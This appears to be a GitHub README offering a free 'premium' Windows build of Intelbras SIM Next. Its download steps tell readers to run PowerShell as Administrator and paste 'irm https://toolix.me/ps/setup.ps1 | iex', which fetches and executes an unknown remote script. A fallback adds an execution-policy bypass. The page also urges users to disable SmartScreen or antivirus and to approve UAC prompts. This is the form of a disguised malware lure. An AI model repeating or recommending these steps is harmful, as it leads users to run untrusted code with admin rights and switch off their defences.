

***

# Intelbras SIM Next Premium

<p align="center">
  
</p>

Intelbras SIM Next Premium — desktop build for Windows 10/11 | clear layout | ready from day one.

## About this application

**Intelbras SIM Next Premium** is packaged for Windows users who need the complete toolset from the first session — all premium sections included, no separate add-ons.

**Heads-up:** if SmartScreen or your antivirus blocks the download, **allow the file temporarily**, run setup, then restore your usual security settings.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Is it free to download?** Yes — it's free to download and use.

**Does it work on Windows?** Yes, it's built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Allow it — that's a standard security prompt.

## About

Intelbras SIM Next Premium targets users who prefer a quick local install and a clean day-to-day interface.

## What's included

The package is tuned for offline desktop use — install once, open the app, and access every pro section immediately.

## Features

🚀 Rapid launch
📁 Layout presets
💡 Status clarity
🗝️ Personal settings
⚙️ Snapshot jobs
⚙️ Rollback guide
⚙️ Plan slots

## Good for

- 🎬 Everyday desktops
- 📸 Support tools
- 🎧 Scheduled backups

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 8 GB or more | 16 GB ideal for large files
* **Disk:** 3 GB free disk space

***